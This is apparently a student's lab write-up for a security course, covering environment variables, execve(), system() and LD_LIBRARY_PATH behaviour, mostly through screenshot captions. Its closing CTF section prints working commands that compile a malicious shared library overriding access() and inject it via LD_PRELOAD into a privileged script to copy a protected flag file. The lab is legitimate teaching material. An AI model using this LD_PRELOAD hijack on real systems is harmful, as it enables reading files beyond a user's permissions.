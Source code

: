 # Trabalho realizado na Semana #4

## Task 1

- After running printenv
![printenv](./images/image.png)

- After running printenv PWD to specify the variable
![printenv pwd](./images/image-1.png)

- Changing PWD from "/home/seed" to "/home" with export
![export](./images/image-2.png)

- Unsetting the PWD variable

![unset](./images/image-3.png)

## Task 2

- With line 2 commented out, this is the output of myprintenv.c, which we passed to a file.
![first run](./images/image-4.png)

- With line 2 uncommented and line 1 commented out, the output looks like this:
![second run](./images/image-5.png)

- After using the diff command, we can see there are no differences between the programs' outputs.
![diff](./images/image-6.png)

## Task 3


This task's objective is to analyse the behaviour of environment variables when the program is executed via the execve() function.

- After executing myenv.c with the "NULL" expression as the function's third parameter, the output of the program is null. 
![myenv1](./images/image-8.png)

- Now with the variable "environ" as the third parameter:
![myenv2](./images/image-9.png)



When the parameter was "NULL", the environment variables could not be registered there, but when we changed to a non-null variable, the environment variables are registered and then outputted.

## Task 4

In this task, we will use the system() function instead of execve(), which means that, instead of executing the command directly, we will first ask the shell to run it.

- By using the system() function and asking the shell to run the command, we have access to root privileges.
![system](./images/image-7.png)

## Task 5

- After altering altering the MY_VAR and LD_LIBRARY_PATH variables, we were suprised to find that the LD_LIBRARY_PATH variable does not print after running the program.
![task5](./images/image-10.png)


## Task 6

- We altered the code in the foo.c file to run the ls program (as shown below)
![Alt text](./images/image-12.png)
- The ls.c program will use geteuid() to find out if we have root privileges:
![geteuid](./images/image-13.png)
- Final result:
![terminal](./images/image-11.png)


## CTF

We present below the code we used to complete the CTF.
>Write what's in flag.txt to a file in another directory we can access.
>```
>echo "#include <stdlib.h>
>#include <stdio.h>
>int access(const char *pathname, int mode) { 
>   system(\"/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt \");
>   return 0;
>} " >> printenv.c
>
>gcc -fPIC -g -c printenv.c 
>```
>Create a library with our printenv.c.
>```
>gcc -shared -o libmylib.so.1.0.1 printenv.o -lc 
>```
>Preloads the library to env file, which is used in the script back in /flag_reader, so that our code runs before anyother library. 
>```
>echo "LD_PRELOAD=/tmp/libmylib.so.1.0.1" >> env 
>touch myfile.txt
>```
>Change file permissions.
>```
>chmod 777 myfile.txt 
>```
>Immediately after the script in the flag_reader folder is executed to get the content from the file.
>```
>cat myfile.txt 
>```
